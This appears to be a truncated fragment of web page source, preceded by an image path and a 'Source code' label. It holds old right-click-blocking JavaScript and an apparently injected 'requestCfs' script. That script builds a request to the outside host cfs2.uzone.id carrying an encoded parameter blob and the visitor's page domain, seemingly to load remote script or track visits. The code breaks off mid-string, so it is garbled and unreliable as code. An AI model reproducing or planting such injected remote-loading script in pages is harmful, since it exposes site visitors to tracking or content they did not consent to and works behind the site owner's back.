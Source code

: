 function clickNS4(e){if (document.layers||document.getElementById&&!document.all){if (e.which==2||e.which==3){alert(message);return false;}}}
if (document.layers){document.captureEvents(Event.MOUSEDOWN);document.onmousedown=clickNS4;}
else if (document.all&&!document.getElementById){document.onmousedown=clickIE4;}
document.oncontextmenu=new Function("alert(message);return false")

if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "cfs2.uzone.id/2fn7a2/request" + "?id=1" + "&enc=9UwkxLgY9" + "¶ms=" + "4TtHaUQnUEiP6K%2fc5C582CL4NjpNgssK%2fbPVZRalHHHhX525DlTQbmTRpSCSDXzgrUMPBnwBvo2sOCKIn1a3S7F7GuziuAZ0kkuxUvlmjZmN4D5cLq1FVhrJB3FIMBva4uzu6dYhF0Ju0MpyNKzrvXIpflunCA5SG5t34G5gotG4hc1up7JDMu17L2%2bHJO1c4ehGLHT5STqPGG55NR38si3UkGOlWhmXzWuuUzgzgDMEXAQcV2O%2fVhEOtyJ%2fo3EFZBH9DNTT7Jfs%2f4XQyf21ahx6dLxDf5zp8GBwlEUMHpEM1kS1ZT88kiTDKGGXBtqqRiD6q6ZfTABjuTo4uD0NJfJ0e%2fNoBKPtOXFgI%2f%2f%2fbDQnIqFluDUD0Qm7EWpMIrSyllreuUlNCd3jjW8z33h6sugzvaydOg1vEHOaNNioOGgBT6p%2f9TVF4EG9xw2UqnS55a9G%2foQmxdDPBDoxbnKOpxn30AVcYbaTHqFXEJZ7%2fzMDK4FDtR73BPPP7mmK2HVxab%2fPke6v6ijgTQPINB6HKwIlhewxKTkCNJ6FohLGKt74PXS2Z9%2bpoA%3d%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw</script>
 </body>
</html>

